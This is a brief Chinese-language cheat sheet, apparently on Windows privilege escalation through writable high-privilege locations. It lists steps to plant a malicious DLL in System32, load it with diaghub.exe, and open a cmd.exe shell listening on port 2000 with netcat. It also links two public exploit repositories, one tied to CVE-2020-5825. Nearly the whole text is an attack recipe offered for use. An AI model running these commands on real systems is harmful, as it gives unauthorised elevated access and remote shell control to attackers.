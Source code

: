 # 可写的高权限文件

利用方式：

1. 创建一个恶意的dll文件，移动至**C:\Windows\System32**
2. 使用`diaghub` 工具 ： `**diaghub.exe c:\\ProgramData\\ payload.dll**`
3. **进行反弹** C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe

**diaghub的代替工具：**

1.  [https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag](https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag)
2.  [https://github.com/decoder-it/diaghub_exploit](https://github.com/decoder-it/diaghub_exploit)
